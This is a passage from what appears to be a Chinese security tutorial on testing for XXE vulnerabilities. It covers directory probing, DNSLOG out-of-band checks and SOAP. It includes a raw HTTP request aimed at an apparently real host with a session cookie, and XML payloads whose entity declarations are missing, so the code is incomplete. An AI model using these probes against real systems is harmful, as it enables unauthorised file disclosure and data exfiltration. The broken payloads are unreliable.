 ### 1.2.3、目录

输入任意文件或目录，查看返回包，如返回500“没有那个文件或目录”，或者返回200“文件内容”则存在xxe漏洞。

```php
win
<?xml version="1.0" encoding="UTF-8"?>

 
]> 

linux
<?xml version="1.0" encoding="UTF-8"?>

 
]> 
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-a611c4a7c27dd6ee1452b30e3dc7dd07c43387b6.png)

### 1.2.4、DNSLOG

也可以使用DNSLOG进行测试，使用如下payload，如果dnslog平台能接受到信息，则证明存在xxe漏洞

<http://www.dnslog.cn/>

```php
POST /dorado/view-service HTTP/1.1
Host: www.nxzhaj.com:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
content-type: text/xml
Content-Length: 133
Connection: close
Referer: http://www.nxzhaj.com:8080/
Cookie: JSESSIONID1=6061F2C1A054E8B25D732A1578F6D443

<?xml version="1.0" encoding="utf-8" ?>

]>
<root>&xxe;</root>
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-58cc01bf58a774057db4714a6fbb1fa1d996e3bf.png)

### 1.2.5、SOAP

SOAP是一种协议规范，用于在Web上交换结构化和固化的信息。它使用XML格式来编码这些信息，并通过HTTP或HTTPS等协议进行传输。因此，可以简单理解为SOAP是HTTP和XML的组合。

SOAP的优点是它提供了一种标准化的方式来表示Web服务请求和响应，这使得不同平台和应用程序之间的互操作性成为可能。由于它基于XML，因此SOAP消息具有自我描述性，可以包含任何类型的数据，并且可以轻松地在不同的系统和编程语言之间进行转换。
